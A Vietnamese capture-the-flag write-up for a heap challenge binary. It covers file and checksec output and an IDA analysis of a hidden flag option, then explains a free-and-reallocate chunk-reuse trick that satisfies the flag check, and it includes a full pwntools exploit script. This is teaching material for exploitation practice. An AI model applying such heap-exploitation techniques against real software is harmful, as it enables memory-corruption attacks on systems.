# Heap_Exploit - Heap1

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn1_ff: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.32, BuildID[sha1]=b744398ed054457775b2ede2fc6f427f294fca56, stripped
```
Đây là file 64-bit bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x3ff000)
```
Ở bài này không bof hay thực thi shellcode được. Kế đến sử dụng Ida Pro 64 bits

Sửa lại file IDA ta có hàm main():

![main.png](images/main.png)

Ở đây ta có 4 options trong đó 1 option khi ta chạy file không có đó là get_flag():

![get_flag.png](images/get_flag.png)

# 2. Phân tích yêu cầu

Tại hàm get_flag() sẽ lấy 4 bytes giá trị đầu tiên ở địa chỉ 0x6020f0 rồi cộng thêm 8 và lưu vào RAX

Cuối cùng so sánh giá trị tại địa chỉ RAX đó với 0xABCDEF

Nếu đúng sẽ in ra flag cho chúng ta.

# 3. Khai thác

Đầu tiên chúng ta sẽ tạo một vài chunks: 

```
create(24,p64(0xABCDEF)*5)
create(24,p64(0xABCDEF)*5)
create(24,p64(0xABCDEF)*5)
```

Khi đó heap của chúng ta sẽ như sau:

![chunk1.png](images/chunk1.png)

Và địa chỉ cần so sánh với 0xABCDEF tương ứng với chunk thứ 3:

![addr.png](images/addr.png)

Tiếp theo chúng ta free() chunk đó: 

```
free(2)
```

Heap khi đó:

![chunk2.png](images/chunk2.png)

Có thể thấy địa chỉ của chunk thứ 3 đó đã bị lưu vào 8 bytes đầu của phần data trước đó

Ta sẽ cấp phát lại 1 chunk có size bằng với chunk vừa free: 

```
create(24,p64(0xABCDEF)*5)
```

![chunk3.png](images/chunk3.png)

Và data của chunk vừa cấp phát đã đổi chõ với address của chunk đó

Kiểm tra lại địa chỉ so sánh:

![addr2.png](images/addr2.png)

Vậy là đã đúng với điều kiện để cat_flag, giờ chúng ta chỉ cần nhập option ẩn thôi:

```
flag()
```

# 4. Giải thích: 

Ở hàm create_heap()

```
size_4 = (linklist *)malloc(0x10uLL);
size_4->data = (char *)malloc(size);
```

![heap.png](images/heap.png)

Có thể thấy ở đây vùng nhớ địa chỉ có kích thước 0x18bytes và khi đó là do cơ chế địa chỉ trả về của allocator.

Do địa chỉ của chunk là 0x8 bytes mà khi free thì sẽ xóa 8bytes đầu phần data -> nó sẽ lưu địa chỉ chunk vào đó và nếu ta cấp phát 1 chunk có size tương tự thì sẽ được lưu vào phần data trống trước đó dành cho địa chỉ chunk

* Lưu ý:

Điều này chỉ xảy ra khi size data <= vùng địa chỉ chunk (0x18 bytes) trước đó.

# Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pwn1_ff', checksec=False)

p = process("./pwn1_ff")

gdb.attach(p, gdbscript='''
vis
''')

def create(size,data):
	p.sendlineafter(b">", b"1")
	p.sendlineafter(b"Input size:", str(size))
	p.sendafter(b"Input data:", data)

def free(idx):
	p.sendlineafter(b">", b"2")
	p.sendafter(b"Input index:", str(idx)) 
def flag():
    p.sendlineafter(b">", b"4")


create(24,p64(0xABCDEF)*5)
create(24,p64(0xABCDEF)*5)
create(24,p64(0xABCDEF)*5)
free(2)
create(24,p64(0xABCDEF)*5)
flag()
p.interactive()
```
# 5. Lấy flag

![flag.png](images/flag.png)



